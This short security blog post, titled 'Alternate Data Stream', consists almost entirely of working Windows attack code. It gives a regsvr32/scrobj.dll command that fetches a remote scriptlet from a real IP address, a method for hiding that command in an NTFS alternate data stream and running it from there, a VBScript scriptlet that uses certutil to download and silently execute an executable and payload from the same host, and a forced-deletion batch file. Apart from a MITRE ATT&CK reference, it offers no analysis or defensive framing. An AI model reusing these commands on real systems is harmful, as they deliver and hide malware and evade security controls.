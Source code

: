 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "C:\Windows\System32\cmd.exe /c cd /d %TEMP% && " &_
            "certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe main.exe && " &_
            "certutil.exe -urlcache -split -f http://47.98.135.65/main/payload.txt payload.txt && " &_
            "main.exe", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
